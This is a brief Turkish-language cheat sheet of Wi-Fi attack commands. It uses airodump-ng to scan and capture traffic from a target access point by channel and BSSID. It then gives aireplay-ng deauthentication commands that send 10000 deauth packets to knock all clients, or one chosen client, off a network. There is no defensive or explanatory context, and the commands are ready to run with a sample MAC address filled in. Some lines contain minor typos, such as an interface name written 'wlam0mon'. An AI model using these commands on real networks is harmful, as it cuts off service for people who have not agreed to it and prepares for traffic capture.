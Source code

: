 ### Ağlar İle İlgili Bilgi Toplama

~iwconfig //monitor moda geç kontrol
~airodump-ng wlan0mon //ağların bilgileri

~airodump-ng --channel 9 --bssid E4:C3:2A:B7:23:90 --write airodumptest wlan0mon //channel ve mac adresi bilinmeli

## Ağdan Atma

--Tüm cihazları ağdan atma--

~aireplay-ng --deauth 10000 -a E4:C3:2A:B7:23:90 wlam0mon

--Belirli cihazları ağdan atma--

~aireplay-ng --deauth 10000 -a E4:C3:2A:B7:23:90 -c {atmak istediğimiz ağın mac adresi} wlam0mon
